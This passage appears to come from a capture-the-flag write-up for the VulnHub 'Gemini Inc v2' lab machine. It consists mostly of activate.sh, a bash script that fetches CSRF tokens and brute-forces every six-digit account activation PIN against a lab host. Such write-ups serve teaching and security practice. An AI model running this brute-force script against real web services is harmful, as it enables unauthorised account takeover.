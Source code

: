 Armed with this information, I wrote `activate.sh`, a simple script to brute-force the activation code.

<div class="filename"><span>activate.sh</span></div>
```bash
#!/bin/bash

HOST=192.168.10.130
ACTIVATE=activate.php
ME=$(basename $0)

function token() {
  local COOKIE=""
  if [ -e cookie ]; then
    COOKIE=" -b cookie"
  else
    COOKIE="-c cookie"
  fi
  curl \
    -s \
    $COOKIE \
    http://$HOST/$1 2>/dev/null \
  | grep -m1 token \
  | cut -d"'" -f6
}

function activate() {
  curl \
    -s \
    -b cookie \
    -w %{http_code} \
    -o /dev/null \
    --data-urlencode "userid=$1" \
    --data-urlencode "activation_code=$2" \
    --data-urlencode "token=$(token $ACTIVATE)" \
    http://$HOST/$ACTIVATE
}

function die() {
  rm -f cookie
  for pid in $(ps aux \
               | grep -v grep \
               | grep "$ME" \
               | awk '{ print $2 }'); do
    kill -9 $pid &>/dev/null
  done
}

# activation
for pin in {000000..999999}; do
  if [ "$(activate $1 $pin $(token $ACTIVATE))" -ne 403 ]; then
    echo "[+] uid: $1, pin: $pin"
    die
  fi
done
```


[1]: https://scriptkidd1e.wordpress.com/2018/04/29/gemini-inc-v2-vulnerable-machine/
[2]: https://twitter.com/@sec_9emin1
[3]: https://www.vulnhub.com